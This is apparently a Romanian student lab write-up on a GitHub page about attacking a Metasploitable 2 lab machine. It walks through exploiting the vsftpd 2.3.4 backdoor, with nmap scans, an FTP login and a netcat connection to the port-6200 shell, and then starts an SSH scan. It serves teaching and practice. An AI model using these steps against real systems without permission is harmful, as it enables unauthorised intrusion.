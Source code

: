 ### Atac FTP:

   - [Despre FTP](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_ftp.md)
   - [Captura traficului pentru serviciului FTP in timpul atacului](https://github.com/Dani780-C/Cyber-security/blob/main/captures/ftp-traffic.pcapng)
   - versiune: *vsftpd 2.3.4*
   [In 2011, in arhiva de pe site-ul oficial al serviciului FTP a fost atasat un virus backdoor care executa un shell pe portul 6200. Pentru a executa virusul, username-ul folosit la conectarea serviciului FTP putea fi oricare sir de caractere urmat de un ":)"]

   - Pasii atacului:
      
         nmap -sSV 192.168.56.102 -p21,6200
     ##### Explicatii comanda:
        ```
        nmap <-> tool pentru a scana servicii
        -sSV <-> Stealth scan version
        192.168.56.102 <-> adresa IP a tintei (Metaplsoitable 2)
        -p21,6200 <-> scanam doar porturile 21 si 6200
        ```
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-nmap-1.png)

     Se poate observa ca portul 6200 inca nu este deschis.
     
         ftp 192.168.56.102 21
     
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-2.png)
     
         nmap 192.168.56.102 -p6200
         
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-nmap-2.png)
     
     Se poate vedea dupa o inca scanare a portului 6200 ca acum este deschis.
     
         nc -v 192.168.56.102 6200
         
      ##### Explicatii comanda:
        ```
        nc <-> netcat
        -v <-> verbose
        192.168.56.102 <-> adresa IP a tintei
        6200 <-> portul pe care ne conectam
        ```     
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-done.png)
     
### Atac SSH:

   - [Despre SSH](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_ssh.md)
   - [Captura traficului pentru serviciului SSH in timpul atacului](https://github.com/Dani780-C/Cyber-security/blob/main/captures/ftp-traffic.pcapng)
   - versiune: *OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)*
   - Pasii atacului:
         
         nmap -sSV 192.168.56.102 -p22
     ##### Explicatii comanda:
        ```
        nmap <-> tool pentru a scana servicii
        -sSV <-> Stealth scan version
        192.168.56.102 <-> adresa IP a tintei (Metaplsoitable 2)
        -p22 <-> scanam doar portul 22
        ```
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/nmap-ssh-p22.png)
     
     
